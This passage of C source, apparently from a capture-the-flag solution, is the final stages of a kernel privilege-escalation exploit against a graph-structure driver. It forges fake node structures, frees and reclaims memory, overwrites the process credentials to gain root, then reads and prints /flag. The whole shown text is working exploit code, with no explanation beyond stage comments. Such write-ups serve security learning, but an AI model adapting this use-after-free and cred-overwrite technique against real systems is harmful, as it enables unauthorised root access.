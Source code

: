 ```c
		llink(graph_fds[0], graph_fds[i], 0);
	llink(graph_fds[0], fd, 0);  // weight = write primitive value (zero for root creds)
	finalize(graph_fds[0]);

	fprintf(stderr, "[S3] Freeing stage1 dist array\n");
	memset(buf, 0, sizeof(buf));
	*(unsigned int *)(buf + 0x8) = 1; // refcount
	*(unsigned int *)(buf + 0x30) = 1; // is_finalized
	// fake node_array overlaps unused nb_lock
	*(unsigned long *)(buf + 0x38 + 0x0) = 0; // fake node_array.size
	*(unsigned long *)(buf + 0x38 + 0x10) = s1_dist_addr; // fake node_array.nodes (will be freed)
	*(unsigned long *)(buf + 0x60) = victim_addr + 0x60; // edges.next (empty list)
	*(unsigned long *)(buf + 0x78) = victim_addr + 0x38; // traversal = fake node_array
	reclaim_free(ctx);
	reclaim_alloc_raw(ctx, buf);
	release(fd); // free s1_dist_addr
	fd = create(); // immediately reclaim victim node to restore stable state

	fprintf(stderr, "[S3] Overwriting cred\n");
	unsigned long write_addr = cred_addr + 8*3;
	unsigned long idx = (write_addr - s1_dist_addr) / 8;
	reclaim_free(ctx);
	reclaim_alloc(ctx, 1, 0, idx, 0);
	query(graph_fds[0], graph_fds[1]);
}

static void print_flag()
{
	int fd = open("/flag", O_RDONLY);
	assert(fd != -1);

	char buf[100];
	memset(buf, 0, sizeof(buf));
	assert(read(fd, buf, sizeof(buf)-1) != -1);
	close(fd);

	fprintf(stderr, "!!! FLAG: %s\n", buf);
}

int main(void)
{
	int scratch_fds[12];
	for (int i = 0; i < 12;  i++)
		scratch_fds[i] = create();

	// Leak a distance array (still malloc'ed) and the address of a live node
	unsigned long s1_dist_addr, s1_node_addr;
	int s1_node_fd;
	stage1(&s1_dist_addr, &s1_node_addr, &s1_node_fd);

	// Get a fd that can be freed and reclaimed repeatedly
	struct reclaim_ctx victim_ctx;
	int victim_fd;
	stage2(&victim_ctx, &victim_fd);

	// Get somewhat rootish privileges
	stage3(&victim_ctx, victim_fd, scratch_fds, s1_dist_addr, s1_node_addr);

	print_flag();
}
```
